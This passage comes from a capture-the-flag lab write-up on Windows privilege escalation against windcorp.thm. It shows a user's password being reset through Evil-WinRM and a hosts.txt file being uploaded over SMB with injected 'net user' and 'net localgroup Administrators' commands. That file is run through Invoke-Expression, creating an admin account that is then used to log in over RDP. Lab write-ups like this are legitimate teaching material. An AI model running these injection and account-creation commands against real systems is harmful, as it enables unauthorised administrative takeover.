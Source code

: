 This script is reading `C:\Users\brittanycr\Desktop\hosts.txt` file, and uses Invoke-Expression for every lines. We can inject commands in this file to create a new admin user. Since 
we can change the password of user `brittanycr`, we may be able to edit the `hosts.txt` file on the desktop. So first, let's change the password for this user :  
```
*Evil-WinRM* PS C:\scripts> net user brittanycr Password123! 
The command completed successfully.
```

We can't use those credentials for WinRM or RDP, but we can use them on the SMB service and connect to the `Users` share :  
```
attacker@AttackBox:~/Ra$ smbclient //windcorp.thm/Users -U brittanycr
Enter WORKGROUP\brittanycr's password: 
Try "help" to get a list of possible commands.
smb: \> cd brittanycr\
smb: \brittanycr\> ls
  .                                   D        0  Sun May  3 01:36:46 2020
  ..                                  D        0  Sun May  3 01:36:46 2020
  hosts.txt                           A       22  Sun May  3 15:44:57 2020

		15587583 blocks of size 4096. 10906327 blocks available
smb: \brittanycr\>
```

Let's create a malicious `hosts.txt` file :  
```
attacker@AttackBox:~/Ra$ nano hosts.txt
attacker@AttackBox:~/Ra$ cat hosts.txt 
;net user Cyberretta Password123! /add;
;net localgroup Administrators Cyberretta /add;
```

Now, let's upload this file to the target using SMB :  
```
smb: \brittanycr\> put hosts.txt 
putting file hosts.txt as \brittanycr\hosts.txt (0,8 kb/s) (average 0,8 kb/s)
```

Now, we can connect to the target using RDP with the new administrator user we just created :  
```
attacker@AttackBox:~/Ra$ xfreerdp /v:windcorp.thm /u:Cyberretta /p:Password123!
[06:04:02:893] [4365:4366] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[06:04:02:894] [4365:4366] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[06:04:02:895] [4365:4366] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd
[06:04:02:895] [4365:4366] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr
[06:04:02:901] [4365:4366] [INFO][com.freerdp.client.x11] - Property 251 does not exist
...
...
...
...
```

![](https://i.imgur.com/5hgBXxu.jpg)  
